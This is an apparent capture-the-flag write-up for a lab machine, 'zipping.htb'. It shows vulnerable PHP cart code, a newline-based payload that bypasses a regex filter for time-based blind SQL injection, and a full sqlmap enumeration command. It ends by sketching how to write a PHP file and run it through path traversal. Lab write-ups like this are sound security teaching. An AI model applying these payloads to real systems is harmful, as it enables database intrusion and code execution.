 ### SQL Injection Discovery
Discovered an SQL injection vulnerability within `/var/www/html/shop/cart.php`, allowing manipulation of the `product_id` parameter.
```php
$product_id = $_POST['product_id'];
$quantity = $_POST['quantity'];
// Filtering user input for letters or special characters
if(preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}\[\]\\|;:'\",.<>\/?]|[^0-9]$/", $product_id, $match) || preg_match("/^.*[A-Za-z!#$%^&*()\-_=+{}[\]\\|;:'\",.<>\/?]/i", $quantity, $match)) {
    echo '';
} else {
    // Construct the SQL statement with a vulnerable parameter
    $sql = "SELECT * FROM products WHERE id = '" . $_POST['product_id'] . "'";
    // Execute the SQL statement without any sanitization or parameter binding
    $product = $pdo->query($sql)->fetch(PDO::FETCH_ASSOC);
    ...
}
```


We notice that the `product_id` parameter is being used without proper sanitization and could potentially be exploited for SQL injection. However, we're unable to input any letters or any symbols.
Firstly, we need to bypass the regex function. We require a specific payload: it should start with a newline character, followed by the SQL injection, and finally end with a number, formatted as such (remember to URL encode before sending the request)...

```sql

1' and sleep(10) -- -1
```

### SQLMap Enumeration
Once we realize we can perform an SQLi, we find it's a Blind SQLi, meaning we won't be able to directly view the response from our SQLi. This slows down the FootPrinting process, but with some patience and the 'sqlmap' tool, we can enumerate the database. The following command serves as an example of enumeration:

```bash
sqlmap -u "http://zipping.htb/shop/index.php?page=cart" --data="product_id=1&quantity=1" --skip="quantity" --prefix="%0a'" --suffix="-- -1" --dbms="MySQL" -D zipping -T products --schema --ignore-redirects --common-columns
```
<i>Note: %0a is the URL encode of a new line \n.</i>

After enumerating the database, this is the most valuable information I got:
- Database: Zipping
- Tables: products
- Privileges FILE: Y
- @@data_dir: `/var/lib/mysql`

We notice that we can write a file but only in the `/var/lib/mysql` directory. A little recap, we have found that we can write a .php file and we can execute a php file from any directory using the Path Traversal at the `/shop/index.php=page=[MALICOUS_PHP_FILE]`.
